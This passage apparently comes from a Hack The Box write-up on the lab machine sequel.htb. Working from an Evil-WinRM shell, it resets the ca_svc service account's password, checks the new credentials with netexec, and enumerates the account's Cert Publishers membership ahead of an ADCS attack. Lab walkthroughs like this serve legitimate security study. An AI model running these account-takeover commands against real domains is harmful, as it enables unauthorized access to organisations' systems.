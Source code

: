 
```bash
*Evil-WinRM* PS C:\Users\ryan\Desktop> Set-ADAccountPassword -Identity ca_svc -NewPassword (ConvertTo-SecureString "Password123!" -AsPlainText -Force) -Reset
```

<br />

With this `netexec` one-liner, we can verify that the changes were correctly applied:

<br />

```bash
❯ netexec smb sequel.htb -u 'ca_svc' -p 'Password123!'
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.51     445    DC01             [+] sequel.htb\ca_svc:Password123!
```

<br />

## ADCS Enumeration:

<br />

This user is part of the `Cert Publishers` group:

<br />

```bash
*Evil-WinRM* PS C:\Users\ryan\Desktop> net user ca_svc
User name                    ca_svc
Full Name                    Certification Authority
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/14/2025 11:32:29 AM
Password expires             Never
Password changeable          6/15/2025 11:32:29 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   6/9/2024 10:14:42 AM

Logon hours allowed          All

Local Group Memberships      *Cert Publishers
Global Group memberships     *Domain Users
The command completed successfully.
```
